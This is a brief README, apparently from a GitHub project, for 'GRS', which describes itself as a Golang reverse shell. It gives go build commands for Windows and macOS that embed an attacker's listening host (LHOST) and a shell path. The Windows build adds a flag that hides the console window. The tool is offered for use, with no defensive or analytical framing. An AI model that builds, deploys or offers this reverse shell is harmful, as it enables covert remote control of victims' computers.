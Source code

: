 # GRS
### A Golang reverse shell


#### To build:
Windows:
        $ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"
    
Darwin:
        $ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shellPath=**shell path**'" "darwin/GRS.go"
